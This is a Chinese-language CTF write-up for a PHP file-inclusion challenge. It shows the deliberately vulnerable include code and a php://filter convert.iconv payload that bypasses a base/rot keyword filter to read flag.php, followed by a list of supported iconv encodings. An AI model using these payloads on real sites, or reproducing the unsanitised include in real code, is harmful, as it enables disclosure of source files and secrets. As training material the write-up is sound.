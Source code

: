 ## include 0。0

```php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?> 
```

从代码审计来看，这是一道文件包含题

并且提示`// FLAG in the flag.php`，过滤了常见的两个格式

这里使用:`?file=php://filter/read=convert.iconv.UTF-8.UTF-16/resource=flag.php  `

得到flag



这里列举一些过滤器：

- convert.base64-encode

- rot13

```php
php://filter/read=string.rot13/resource=flag.php
```

- convert.iconv

```php
convert.iconv.<input-encoding>.<output-encoding> 
```

支持编码的字符串：

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac (alias: MacJapanese)
SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
SJIS-Mobile#KDDI (alias: SJIS-KDDI)
SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES (alias: HTML)
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC (alias: CP949)
ISO-2022-KR
Windows-1251 (alias: CP1251)
Windows-1252 (alias: CP1252)
CP866 (alias: IBM866)
KOI8-R*
KOI8-U*
ArmSCII-8 (alias: ArmSCII8)
```

